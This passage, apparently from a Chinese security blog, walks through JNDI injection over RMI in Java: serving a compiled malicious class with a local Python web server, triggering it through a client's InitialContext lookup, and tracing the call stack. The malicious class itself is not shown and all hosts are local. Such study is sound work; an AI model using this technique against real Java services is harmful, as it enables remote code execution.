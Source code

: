 接下来编译出class文件,放在本地web目录即可(**这里注意，如果使用上述python命令启动的web服务，那么你在哪个目录下打开cmd窗口启动的服务，你的web目录就在哪个目录**)

```java
编译:javac test.java
部署在web服务上：python3 -m http.server 8081 #端口根据前面服务端url的端口
```

当客户端通过InitialContext().lookup("rmi://127.0.0.1:8081/obj")获取远程对象时，会执行我们的恶意代码

```java
//client.java
package JNDI;

import javax.naming.InitialContext;
import javax.naming.NamingException;

public class client {
    public static void main(String[] args) throws NamingException {
        String url = "rmi://localhost:1099/obj";
        InitialContext initialContext = new InitialContext();
        initialContext.lookup(url);
    }
}
```

![img](https://blog-1313934826.cos.ap-chengdu.myqcloud.com/blog-images/202304221640222.png)

#### 调用栈

```java
getObjectFactoryFromReference:163, NamingManager (javax.naming.spi)
getObjectInstance:319, NamingManager (javax.naming.spi)
//以上获取信息
decodeObject:456, RegistryContext (com.sun.jndi.rmi.registry)
lookup:120, RegistryContext (com.sun.jndi.rmi.registry)
lookup:203, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:411, InitialContext (javax.naming)
main:7, JNDI_Test (demo)
```

跟进InitialContext.java的lookup方法

![img](https://blog-1313934826.cos.ap-chengdu.myqcloud.com/blog-images/202304221640034.png)

getURLOrDefaultInitCtx函数会分析name的协议头返回对应协议的环境对象，因为InitialContext是实现了Context接口的类,此处返回Context对象的子类rmiURLContext对象

接下来就是到对应协议中去lookup搜寻,继续跟进lookup方法

GenericURLContext.java

```java
//传入的var1="rmi://127.0.0.1/obj"
public Object lookup(String var1) throws NamingException {
    //此处this为rmiURLContext类调用对应类的getRootURLContext类为解析RMI地址
    //当然,不同的协议调用这个函数的时候会根据getURLOrDefaultInitCtx函数返回的对象调用不同的            
    //getRootURLContext,从而进入不同的协议路线

    ResolveResult var2 = this.getRootURLContext(var1, this.myEnv);//获取RMI注册中心相关数据
    Context var3 = (Context)var2.getResolvedObj();//获取注册中心对象

    Object var4;
    try {
        var4 = var3.lookup(var2.getRemainingName());//到相应的注册中心去调用lookup函数
    } finally {
        var3.close();
    }

    return var4;
```